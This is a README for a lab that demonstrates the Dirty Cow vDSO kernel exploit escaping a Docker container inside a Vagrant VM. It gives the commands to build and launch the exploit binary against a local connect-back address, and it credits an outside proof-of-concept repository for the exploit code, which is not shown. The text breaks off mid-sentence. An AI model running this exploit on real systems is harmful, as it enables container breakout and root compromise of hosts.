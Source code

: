 # dirtycow-docker-vdso_2

This directory contains the necessary code to get the vdso based Dirty Cow POC working inside a docker container. 
All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.
This exploit is from  https://github.com/gebl/dirtycow-docker-vdso.git'}

This exploit is similar that dirtycow-docker-vdso_1 with exception no seperate user is created 

To execute:
``	vagrant up
``


``	vagrant putty
``

Once inside the VM run to launch the Docker Container:
``
	sudo docker-compose run dirtycow /bin/bash" 
``

Inside the Docker container run:
``
    cd /dirtycow-vdso
     make
     ./0xdeadbeef 172.18.0.2:1234" 
``      

Wait a few minutes for the exploit to launch 

Show the breakout of the container by running 

``
ifconfig
``	

Succesful breakout should list

	
  
